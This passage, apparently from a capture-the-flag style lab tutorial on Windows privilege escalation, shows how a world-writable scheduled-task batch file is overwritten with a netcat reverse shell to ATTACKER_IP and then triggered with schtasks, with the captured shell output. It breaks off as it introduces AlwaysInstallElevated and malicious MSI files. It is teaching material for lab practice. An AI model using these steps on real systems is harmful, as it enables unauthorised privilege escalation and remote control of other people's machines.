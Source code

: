 If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:

```
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:

```
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

nc -lvp 4444

The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:

```
C:\> schtasks /run /tn vulntask
```

And you will receive the reverse shell with taskusr1 privileges as expected:

```

Kali Linux

user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1

        
```

Go to taskusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.


AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.
